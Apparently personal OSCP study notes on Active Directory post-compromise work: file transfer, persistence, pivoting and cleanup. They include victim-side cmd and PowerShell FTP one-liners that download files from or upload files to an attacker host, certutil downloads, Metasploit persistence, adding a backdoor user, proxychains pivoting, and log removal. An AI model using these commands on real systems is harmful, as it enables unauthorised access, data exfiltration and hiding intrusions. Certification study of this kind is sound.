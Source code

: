 ```yaml
---
aliases:
  - Active Directory Post Compromise Attacks
tags:
  - tech
  - cybsec
  - certification
  - oscp
  - active_directory
  - post_exploitation
author: Mehdi N Tehrani
creat_date: 2023-12-10
category: Cyber Security
subcategory: Offensive Security - OSCP
---
```

# File Transfer
#file_transfer #file_upload #file_download 
## References
https://medium.com/@PenTest_duck/almost-all-the-ways-to-file-transfer-1bd6bf710d65

## certutil
#certutil #windows
Windows
`certutil.exe -urlcache -f <url> <out_file>`
## ftp
#ftp 
- listening on attacker machine:
```sh
python3 -m python_ftp_server -u <user> -p <pass> --ip 0.0.0.0 [--port <local_port>]
```
### cmd
- code to inject to victim machine:
- #download #windows #cmd
```cmd
(echo open <lhost> <lport>&echo <user>&echo <pass>&echo bi&echo get <file>&echo bye) > f.t&ftp -s:f.t&del f.t
```
#upload #windows #cmd
```cmd
(echo open <lhost> <lport>&echo <user>&echo <pass>&echo bi&echo put <file>&echo bye) > f.t&ftp -s:f.t&del f.t
```
### powershell
- code to inject to victim machine:
- #download #windows #powershell
```cmd
echo "open <lhost> <lport>`n<user>`n<pass>`nbi`nget <file>`nbye" > f.t; ftp -s:f.t; rm f.t
```
#upload #windows #powershell
```cmd
echo "open <lhost> <lport>`n<user>`n<pass>`nbi`nput <file>`nbye" > f.t; ftp -s:f.t; rm f.t
```
## HTTP
`python -m http.server <port>`
## Browser
navigate directly to the file
## FTP
#ftp
server: `python -m pyftpdlib 21`
client: `ftp <ip>`
## Linux
#wget #curl
`wget <url>`
`curl <url> -o <out_file>`

## metasploit
#metasploit #file_transfer
download/upload files

# Persistence
#persistence
## Metasploit Persistence Scripts
#metasploit #danger
> [!danger] metasploit persistence opens an unauthenticated port on the machine. Any attacker can abuse this.

`msfconsole > run persistence -h`
`exploit/windows/local/persistence`
`exploit/windows/local/registry_persistence`
## Metasploit Scheduled Tasks
#scheduled_tasks 
`msfconsole > run scheduleme`
`msfconsole > run schtaskabuse`

## Add a user
#windows
`net user <username> <pass> /add`

# Pivoting
#pivoting #pivot
## proxychains
#proxychains
if the victim's machine has multiple network interfaces, on the attacker machine the following command can be run to be able to pivot across to the networks on the other interfaces:
```
$ cat /etc/proxychains4
[...]
socks4  127.0.0.1 9050

$ ssh -f -N -D 9050 <user>@<ip>
       ^ run ssh in background
          ^ not executing a remote command; used for port forwarding

$ proxychains nmap <ip>
$ proxychains xfreerdp /u:<user> /p:<pass> /v:<ip>
$ proxychains firefox
```
#xfreerdp #rdp 
## sshuttle
#sshuttle
an alternative to *proxychains*
### Install
`sudo pip install sshuttle`
### Usage
`sshuttle -r <user>@<ip> <subnet_CIDR> --ssh-cmd "ssh -i <private_key>"`
keep the above running and then try any command e.g. `nmap -p80 <ip>`

## chisel
#chisel
https://github.com/jpillora/chisel
https://ap3x.github.io/posts/pivoting-with-chisel/


# Cleanup
#cleanup
Remove executables, scripts, added files including malware, rootkit, user accounts
Set settings back to original configuration
removing logs
